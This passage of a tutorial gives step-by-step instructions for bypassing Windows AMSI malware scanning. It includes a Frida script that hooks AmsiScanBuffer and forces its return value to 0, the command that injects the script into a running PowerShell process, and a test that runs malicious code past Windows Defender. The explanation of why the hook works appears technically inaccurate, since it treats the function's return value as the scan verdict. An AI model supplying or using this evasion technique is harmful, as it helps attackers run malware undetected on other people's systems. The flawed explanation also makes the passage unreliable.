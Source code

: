 ### 3. **Write a Frida Script to Hook AMSI Functions**
Frida allows you to hook into functions in a process and analyze or modify their behavior. In this case, you can hook into **`AmsiScanBuffer`**, which is the function used by AMSI to scan content.

Here’s an example Frida script that hooks **`AmsiScanBuffer`** in `amsi.dll`:

```javascript
// AMSI bypass with Frida
Interceptor.attach(Module.findExportByName("amsi.dll", "AmsiScanBuffer"), {
    onEnter: function (args) {
        // Log the buffer being scanned and its length
        console.log("[+] AmsiScanBuffer called");
        console.log("Buffer pointer: " + args[1]);
        console.log("Buffer length: " + args[2].toInt32());
    },
    onLeave: function (retval) {
        // Change the return value to AMSI_RESULT_CLEAN (0)
        console.log("Original return value: " + retval);
        retval.replace(0); // AMSI_RESULT_CLEAN
        console.log("[+] Return value replaced with 0 (AMSI_RESULT_CLEAN)");
    }
});
```

This Frida script hooks into `AmsiScanBuffer` and does the following:
- **Logs information** about the buffer being scanned (useful for analysis).
- **Modifies the return value** of `AmsiScanBuffer` to always return `0` (clean scan), which bypasses AMSI.

### 4. **Inject the Frida Script into the Target Process**

You can use the **Frida CLI** to inject your script into the running **PowerShell** process (or any other process that loads `amsi.dll`).

Here’s how you inject the script:

```bash
frida -p <PID> -l amsi_bypass.js --no-pause
```

- Replace `<PID>` with the Process ID of the PowerShell process.
- `amsi_bypass.js` is the name of the Frida script that contains the hooking logic.

### 5. **Test the Bypass**
Once you inject the Frida script, any AMSI scan should now be intercepted. **`AmsiScanBuffer`** will always return `0` (AMSI_RESULT_CLEAN), meaning that AMSI will no longer flag any content as malicious.

You can test this by running a PowerShell script that would normally trigger AMSI, such as:

```powershell
Invoke-Expression -Command "malicious_code_here"
```

If AMSI is successfully bypassed, the code will run without being blocked by Windows Defender or other security software.
